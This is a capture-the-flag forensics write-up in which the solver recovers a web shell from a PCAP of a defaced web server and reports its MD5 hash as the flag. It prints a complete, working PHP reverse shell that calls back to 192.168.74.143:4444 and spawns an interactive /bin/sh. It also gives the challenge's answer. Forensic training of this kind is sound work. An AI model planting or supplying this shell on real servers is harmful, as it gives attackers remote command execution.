

# DFIR 1

* **Challenge Description:** iHack's web server have been defaced. Provide us the MD5 hash of the malicious file in the web server from this PCAP.
* **Flag Format:** `ihack{MD5}`

## Solution

We can first analyze the PCAP file in `Wireshark` by doing `Follow TCP Streams`. However, due to the overwhelmingly amount of files, using `NetworkMiner` would be a better option.



A PHP reverse shell was found on stream `TCP 61440`. 

```
<?php
// PHP Reverse Shell
// Copyright (C) 2020 e@hotmail.com
// AbuDayeh
set_time_limit (0);
$VERSION 	= "1.0";
$ip 		= '192.168.74.143'; 	// Change Your {IP}
$port 		= 4444;       	// Change Your {Port}
$chunk_size 	= 1400;
$write_a 	= null;
$error_a 	= null;
$shell 		= 'echo "V2VsY29tZSB0byBpaGFjayAyMDIyLiBtZDUgdGhpcyB3ZWJzaGVsbA==" | base64 -d; /bin/sh -i';
$daemon 	= 0;
$debug 		= 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	if ($pid) {
		exit(0);
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?>
```

This can be verified by viewing the base64 encoded payload embedded in the PHP file.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ echo "V2VsY29tZSB0byBpaGFjayAyMDIyLiBtZDUgdGhpcyB3ZWJzaGVsbA==" | base64 -d
Welcome to ihack 2022. md5 this webshell
```

Retrieve the MD5 hash of the PHP web shell.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ md5sum /home/kali/Desktop/NetworkMiner_2-7-3/AssembledFiles/192.168.74.1/TCP-61440/avatar-1606914__480.php
8472a0454391a40792173708866514ef  /home/kali/Desktop/NetworkMiner_2-7-3/AssembledFiles/192.168.74.1/TCP-61440/avatar-1606914__480.php
```

**Flag:** `ihack{8472a0454391a40792173708866514ef}`
